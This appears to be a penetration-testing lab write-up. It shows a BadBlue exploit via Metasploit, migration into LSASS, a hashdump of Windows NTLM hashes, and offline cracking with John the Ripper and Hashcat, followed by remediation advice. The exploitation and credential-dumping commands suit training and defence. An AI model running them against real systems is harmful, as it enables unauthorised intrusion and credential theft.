# Windows: NTLM Hash Cracking

**Classification:** Host & Network Penetration Testing / Post-Exploitation<br>
**Target:** Windows host (Meterpreter via BadBlue)

**Flags**
- Administrator password: `password`
- Bob password: `password1`

## 1. Executive Summary

After exploiting **BadBlue** and migrating into LSASS, we dump the SAM NTLM hashes with
`hashdump`, save them, and crack them offline two ways — **John the Ripper** and **Hashcat**
(hash mode 1000, NTLM) — recovering the Administrator and Bob passwords.

## 2. Foothold & Hash Dump

```bash
db_nmap -sV <target>
use exploit/windows/http/badblue_passthru
exploit
```





```bash
migrate <lsass pid>
```



```bash
hashdump
```



Saving the Administrator and Bob hashes to a file.



## 3. Cracking with John the Ripper

```bash
john --list=formats | grep -i nt
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```





Both passwords are recovered.

```
Administrator : password
Bob           : password1
```



## 4. Cracking with Hashcat

```bash
hashcat --help | grep -i ntlm     # mode 1000
hashcat -m 1000 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```











## 5. Remediation Recommendations

1. **Enforce strong, long passwords** — both fell instantly to a wordlist; NTLM is fast to
   crack.
2. **Protect the SAM/LSASS** (Credential Guard, LSA Protection) to prevent hash dumping.
3. **Monitor** for LSASS access/dumping and rotate exposed credentials; use LAPS for local
   admin.
